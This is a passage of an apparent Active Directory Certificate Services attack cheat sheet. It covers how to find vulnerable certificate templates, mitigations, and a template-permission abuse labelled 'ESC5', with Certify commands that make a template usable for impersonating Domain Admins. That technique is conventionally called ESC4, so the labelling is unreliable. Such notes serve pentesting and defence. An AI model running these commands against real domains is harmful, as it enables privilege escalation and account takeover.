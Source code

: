 ## To Identify:
- Check if Web Enrollment (`http://<CA>/certsrv`) is available.
- Use Certipy or Certify to list templates allowing:
  - `ENROLLEE_SUPPLIES_SUBJECT = True`
  - `Client Authentication` EKU
  - Enroll permissions to all users

```bash
certipy-ad find -u user -p pass -dc-ip <dc-ip>
```

## Mitigation:
- Disable Web Enrollment if not needed.
- Enforce EPA (Extended Protection for Authentication).
- Remove `Client Authentication` EKU and subject supply if not needed.
- Block NTLM where possible (especially over HTTP).

---

# ESC5 – Misconfigured Certificate Template + WriteDacl / FullControl
An attacker with `WriteDACL` or `GenericAll` rights over a vulnerable certificate template can modify it to become exploitable — enabling privilege escalation or impersonation.

## Requirements:
- You have:
  - `WriteDACL`, `GenericAll`, or `FullControl` on a certificate template.
- Target template does **not** have dangerous config **yet**.
- You can change:
  - Permissions (add enroll rights)
  - EKUs (add `Client Authentication`)
  - Flags (enable `ENROLLEE_SUPPLIES_SUBJECT`)

## Impact:
You can convert a non-exploitable template into one that lets you request authentication certificates for other users — such as Domain Admins — enabling full impersonation.

## Example:
### Using Certify (Windows):
```cmd
# Add enroll rights for your user to the target template
Certify.exe template /template:CorpUser /add_enroll:DOMAIN\\attacker

# Modify EKUs and flags
Certify.exe template /template:CorpUser /seteku:"Client Authentication" /enrolleeSupplySubject:true
```
